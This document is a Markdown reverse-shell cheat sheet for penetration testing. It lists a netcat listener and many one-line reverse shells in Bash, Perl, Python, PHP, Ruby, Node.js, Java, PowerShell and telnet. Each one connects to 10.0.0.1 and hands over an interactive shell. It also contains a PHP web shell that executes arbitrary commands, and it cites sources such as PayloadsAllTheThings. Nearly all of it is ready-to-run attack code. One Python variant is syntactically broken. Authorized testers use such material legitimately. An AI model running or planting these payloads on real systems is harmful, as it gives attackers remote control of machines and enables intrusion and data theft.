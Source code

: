 # Reverse shells
> A reverse shell is a shell session established on a connection that is initiated from a remote machine, not from the local host.

---
## Listener
### Netcat
```
nc -lvnp 8000
```

## Reverse shells
### Bash
```
bash -i >& /dev/tcp/10.0.0.1/8000 0>&1
```

### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=8000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python 2
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
python -c 'import sys,socket,os,pty;s=socket.socket() s.connect((os.getenv("10.0.0.1"),int(os.getenv("8000")))) [os.dup2(s.fileno(),fd) for fd in (0,1,2)] pty.spawn("/bin/sh")'
```

### Python 3
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### Nodejs
```
require('child_process').exec('nc -e sh 10.0.0.1 8000')
```

### PHP
```
php -r '$sock=fsockopen("10.0.0.1",8000);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);passthru("sh <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);popen("sh <&3 >&3 2>&3", "r");'
```
```
php -r '$sock=fsockopen("10.0.0.1",8000);system("sh <&3 >&3 2>&3");'
```
```
php -r '$sock=fsockopen(getenv("10.0.0.1"),getenv("8000"));exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",8000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat
```
nc -e /bin/sh 10.0.0.1 8000
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8000 >/tmp/f
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Powershell
```
powershell%20-nop%20-c%20%22$client%20=%20New-Object%20System.Net.Sockets.TCPClient('10.0.0.1',8000);$stream%20=%20$client.GetStream();%5Bbyte%5B%5D%5D$bytes%20=%200..65535%7C%25%7B0%7D;while(($i%20=%20$stream.Read($bytes,%200,%20$bytes.Length))%20-ne%200)%7B;$data%20=%20(New-Object%20-TypeName%20System.Text.ASCIIEncoding).GetString($bytes,0,%20$i);$sendback%20=%20(iex%20$data%202%3E&1%20%7C%20Out-String%20);$sendback2%20=%20$sendback%20+%20'PS%20'%20+%20(pwd).Path%20+%20'%3E%20';$sendbyte%20=%20(%5Btext.encoding%5D::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()%7D;$client.Close()%22
```

### Telnet
```
TF=$(mktemp -u); mkfifo $TF && telnet 10.0.0.1 8000 0<$TF | /bin/sh 1>$TF
```

---

## 📚 References
- [github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- [pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
- [netsparker.com/blog/web-security/understanding-reverse-shells/](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)
- [revshells.com](https://www.revshells.com/)